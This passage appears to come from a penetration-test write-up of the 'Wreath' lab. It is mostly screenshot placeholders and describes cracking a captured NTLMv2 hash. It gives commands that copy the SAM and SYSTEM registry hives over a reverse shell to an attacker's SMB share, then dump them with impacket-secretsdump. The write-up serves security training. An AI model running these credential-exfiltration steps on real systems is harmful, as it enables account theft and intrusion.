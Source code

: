 <span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 520.03px; height: 42.00px;">![](_reports/Wreath/image61.png)</span>

<span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 521.50px; height: 228.03px;">![](_reports/Wreath/image55.png)</span>

<span class="c35 c2">Note that we received the NTLMV2 hash of our created SMB user. Cracking this hash reveals that the password of 0xd4y is pass.</span>

<span>On the reverse shell, I typed</span> <span class="c0">copy HKLM\SYSTEM \\10.50.112.6\share\SYSTEM</span><span class="c1">, and</span>

<span class="c0">copy HKLM\SAM \\10.50.112.6\share\SAM</span>

<span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 420.50px; height: 38.50px;">![](_reports/Wreath/image42.png)</span>

<span>Now with the sensitive SAM and SYSTEM hives on my local system, I was able to extract all hashes using the</span> <span class="c0">impacket-secretsdump</span><span> tool.</span>

<span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 399.51px; height: 158.02px;">![](_reports/Wreath/image69.png)</span>
